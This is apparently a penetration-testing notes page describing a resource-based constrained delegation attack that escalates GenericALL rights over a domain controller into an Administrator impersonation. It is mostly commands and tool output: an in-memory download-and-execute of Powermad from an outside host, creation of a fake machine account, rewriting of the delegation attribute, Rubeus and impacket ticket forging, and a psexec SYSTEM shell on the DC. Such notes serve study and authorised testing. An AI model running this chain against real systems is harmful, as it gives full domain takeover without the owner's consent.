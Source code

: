 ## GenericALL over Host

The specific situation this would apply is when a compromised user has GenericALL rights over a host, ideally a high-value target like a DC. 

![](/images/genericall1.png)

First, Powermad needs to be loaded into memory on the target. Then a new machine account needs to be added.

```sh
iex(new-object net.webclient).downloadstring('http://10.10.14.36/Powermad.ps1')
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
````


Using PowerView_dev, run the following to obtain the objectsid for the new machine account.

```sh
get-netcomputer fake01
```


Use the following commands to obtain a new raw security descriptor for the new machine account

```sh
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5101)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
````

The next command will set the msds-allowedtoactonbehalfofotheridentity attribute using the created security descriptor

```sh
get-netcomputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

Rubeus can be used her to create impersonate a user, create a TGS and inject that ticket. I had issues gaining access after this.

```sh
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
.\Rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```

Method that worked was using impacket. 


Use GetST.py to save a TGS using the created machine account
```sh
getST.py -spn CIFS/dc.domain.local -impersonate Administrator domain/FAKE01$:123456 -dc-ip 10.10.1.1
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
````

Export the ticket into KRB5CCNAME
```sh
export KRB5CCNAME=Administrator.ccache
```

At this stage, impacket has a function to transfer the TGS to any service, so test multiple impacket tools for access. Secretsdump was denied, but psexec.py granted nt authority\system access

```sh
psexec.py -k -no-pass dc.domain.local
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on dc.domain.local.....
[*] Found writable share ADMIN$
[*] Uploading file RUyrpEMO.exe
[*] Opening SVCManager on dc.domain.local.....
[*] Creating service SZxz on dc.domain.local.....
[*] Starting service SZxz.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>


```


